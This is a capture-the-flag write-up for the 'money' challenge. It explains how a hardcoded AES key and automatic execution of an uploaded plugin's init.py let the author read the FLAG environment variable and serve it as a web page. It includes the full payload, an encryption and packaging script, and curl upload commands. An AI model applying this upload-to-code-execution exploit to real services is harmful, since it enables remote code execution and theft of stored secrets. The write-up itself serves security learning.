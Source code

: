 # money

This isn't wordpress...

**Core idea:** server decrypts uploaded `.plugin` with a **hardcoded AES key**, extracts and **executes `init.py`**, and serves any files in the plugin folder at `/widget/<UID>/…`. The flag is exposed to the plugin as an environment variable (`FLAG`). I made a plugin that reads that env var and writes it into an HTML file that the server then serves.

---

## Vulnerability summary

- **Hardcoded symmetric key** allows anyone to produce valid `.plugin` archives.

- **Arbitrary code execution on upload**: the server runs `python init.py` from the uploaded archive.

- **Web-accessible plugin directory**: files created by `init.py` are immediately downloadable at `/widget/<UID>/…`.

- Combined, these give a straightforward RCE → exfiltration path for environment-held secrets.

---

## Exploit steps (what I did)

1. **Create a small plugin** whose `init.py` reads the `FLAG` env var and writes it into a served HTML file.

`init.py` (runs on server at upload):

```python
import os, html, pathlib
d = pathlib.Path(__file__).resolve().parent
flag = os.getenv("FLAG","NOFLAG")
content = f"<!doctype html><meta charset=utf-8><pre>{html.escape(flag)}</pre>"
(d/"flag.html").write_text(content, encoding="utf-8")
(d/"index.html").write_text(content, encoding="utf-8")  # optional: replace index
print(flag)
```

2. **Pack these files into `plugin.zip`** (include `index.html`, `plugin_manifest.json`, `init.py`).

3. **Encrypt to `.plugin`** using the known key from source (format: `IV || AES-CBC(pad(plugin.zip))`).

Example (script used to build `htmlflag.plugin`):

```python
# make_htmlflag.py (local)
import os, json, zipfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
KEY = b"SECRET_KEY!123456XXXXXXXXXXXXXXX"

os.makedirs("p", exist_ok=True)
open("p/index.html","w").write("<h1>waiting...</h1>")
open("p/plugin_manifest.json","w").write(json.dumps({"name":"htmlflag","version":"1.0","author":"you","icon":"index.html"}))
open("p/init.py","w").write("""import os, html, pathlib
d=pathlib.Path(__file__).resolve().parent
flag=os.getenv('FLAG','NOFLAG')
content=f\"\"\"<!doctype html><meta charset=utf-8><pre>{html.escape(flag)}</pre>\"\"\"
(d/'flag.html').write_text(content,encoding='utf-8')
(d/'index.html').write_text(content,encoding='utf-8')
print(flag)
""")
with zipfile.ZipFile("plugin.zip","w",zipfile.ZIP_DEFLATED) as z:
    z.write("p/index.html","index.html"); z.write("p/plugin_manifest.json","plugin_manifest.json"); z.write("p/init.py","init.py")
iv = os.urandom(16)
ct = AES.new(KEY, AES.MODE_CBC, iv).encrypt(pad(open("plugin.zip","rb").read(),16))
open("htmlflag.plugin","wb").write(iv+ct)
print("wrote htmlflag.plugin")
```

4. **Upload the plugin** to the service:

`curl -F "file=@htmlflag.plugin" http://ctf.ac.upt.ro:9549/upload`

5. **Find my plugin UID** (the dashboard lists plugin cards):

`UID=$(curl -s http://ctf.ac.upt.ro:9549/ | grep -oP '/widget/\K[0-9a-f-]{36}' | tail -1)`

6. **Open the served page** to retrieve the flag:
- index (replaced): `http://ctf.ac.upt.ro:9549/widget/$UID`

- explicit file: `http://ctf.ac.upt.ro:9549/widget/$UID/flag.html`

The page contained the flag printed from the server environment.
